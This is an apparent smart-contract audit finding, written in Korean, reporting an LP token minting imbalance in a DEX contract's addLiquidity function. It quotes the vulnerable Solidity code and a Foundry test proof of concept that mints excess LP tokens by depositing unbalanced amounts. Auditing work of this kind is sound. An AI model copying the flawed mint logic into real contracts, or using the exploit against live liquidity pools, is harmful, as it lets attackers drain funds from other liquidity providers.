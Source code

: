 # 최영현

## LP Token mint imbalance(Dex.sol:addLiquidity:54)

**High (공격 파급력: Critical, 공격 난이도: Low)**

#### code

```solidity
function addLiquidity(uint256 tokenXAmount, uint256 tokenYAmount, uint256 minimumLPTokenAmount) external returns (uint LPTokenAmount){

        require(tokenXAmount > 0 && tokenYAmount > 0);
        (uint256 reserveX, ) = amount_update();
        (, uint256 reserveY) = amount_update();

        if(totalSupply() == 0){ LPTokenAmount = tokenXAmount * tokenYAmount / 10**18;}
        **else{ LPTokenAmount = totalSupply() * tokenXAmount / reserveX;}**

        require(minimumLPTokenAmount <= LPTokenAmount);

        X.transferFrom(msg.sender, address(this), tokenXAmount);
        amountX = reserveX + tokenXAmount;
        Y.transferFrom(msg.sender, address(this), tokenYAmount);
        amountY = reserveY + tokenYAmount;

        _mint(msg.sender, LPTokenAmount);
    }
```

첫번째 LP 토큰 생성 이후 imbalnace 체크를 하지 않기 때문에 tokenXAmount를 많이 넣고, tokenYAmount를 적게 넣어서 많은 양의 LP 토큰을 mint할 수 있다.

#### PoC

```solidity
function testLPTokenAmount() external {
        uint lp1 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        uint lp2 = dex.addLiquidity(1000 ether, 1 ether, 0);
        assertTrue(lp1 == lp2,"");

        vm.startPrank(user1);
        dex.addLiquidity(100000 ether, 100000 ether, 0);
        vm.stopPrank();

        (uint rx, uint ry) = dex.removeLiquidity(lp2, 0, 0);
        console.log("INPUT X: %d", 1000 ether);
        console.log("INPUT Y: %d", 1 ether);
        console.log("REAL RX: %d", rx);
        console.log("REAL RY: %d", ry);
    }
```
